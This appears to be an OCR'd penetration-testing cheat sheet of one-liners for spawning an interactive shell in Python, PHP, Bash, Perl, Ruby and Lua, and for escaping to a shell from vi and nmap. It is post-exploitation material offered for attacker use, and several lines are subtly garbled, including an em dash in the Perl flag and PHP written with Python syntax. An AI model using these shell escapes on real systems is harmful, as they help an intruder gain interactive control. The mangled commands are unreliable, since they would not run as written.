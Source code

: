 TTY shell spawning:
-	Python
	-	`python -c 'import pty; pty.spawn("/bin/sh")'`
-	PHP
	-	`echo os.system('/bin/bash')`
-	Bash
	-	`/bin/sh -i`
-	Perl
	-	`perl —e 'exec "/bin/sh";'`
	-	`perl: exec "/bin/sh";`
-	Ruby
	-	`ruby: exec "/bin/sh"`
-	Lua
	-	`lua: os.execute('/bin/sh')`
-	From within vi
	-	`:!bash`
	-	`:set shell=/bin/bash:shell`
-	From nmap
	-	`!sh`